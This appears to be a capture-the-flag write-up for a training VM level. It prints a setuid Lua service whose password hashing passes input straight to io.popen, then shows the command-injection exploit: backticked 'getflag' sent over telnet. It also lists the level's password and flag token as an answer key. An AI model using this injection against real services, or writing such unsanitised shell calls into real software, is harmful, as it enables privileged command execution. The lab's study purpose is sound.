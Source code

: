 # Level11 - Flag11

## Local script usage

```shell
Usage: ./Ressources/main.sh
```

## Passwords and token

|         |                             |
| ------- | --------------------------- |
| level11 | `feulo4b72j7edeahuete3no7c` |
| flag11  |                             |
| token   | `fa6v5ateaw21peobuub8ipe6s` |

## Steps to resolve on VM

1. Connect to `level11` user and notice there is a lua script with setuid bit

```bash
ssh level11@$SNOW_HOST -p 4242
# Enter the password

ls -l

> -rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
```

2. Check the file

```bash
cat level11.lua
```

```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151)) -- localhost:5151

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r") -- Note echo and "pass" parameter
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

While reading the script, we can see what the program do.

It asks for a password, then hashes it, then compares the hashed password with an other hashed string, and finally... nothing, just return a useless message.

It would be a waste a time to try to decrypt the hashed string.

The interesting thing here is `echo` runned by a program with setuid permission. We can exploit this echo and inject a command.

3. Run the script (or check it is already running)

Check running process

```bash
ps aux | grep level11.lua

> USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
> flag11    2041  0.0  0.0   2892   828 ?        S    15:02   0:00 lua /home/user/level11/level11.lua
```

Check listening ports

```bash
netstat -tulpn | grep 5151

> Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
> tcp        0      0 127.0.0.1:5151          0.0.0.0:*               LISTEN      -
```

If the program is already running and the port 5151 open, we can ignore this step.

Otherwise run:

```bash
./level11.lua
```

4. Exploit echo with injection

Exploit echo command inside script while injecting getflag command

```bash
telnet localhost 5151

> Trying 127.0.0.1...
> Connected to localhost.
> Escape character is '^]'.
> Password :
```

Then injection command instead of password :

```bash
`getflag > /tmp/getflag`

# ignore next messages
> Erf nope..
> Connection closed by foreign host.
```

7. Get level flag

Finally, read `/tmp/getflag`

```bash
cat /tmp/getflag

> Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

---

## Sources

### Shell

- [Check ports in use](https://www.cyberciti.biz/faq/unix-linux-check-if-port-is-in-use-command/)
- [Man telnet](https://linux.die.net/man/1/telnet)
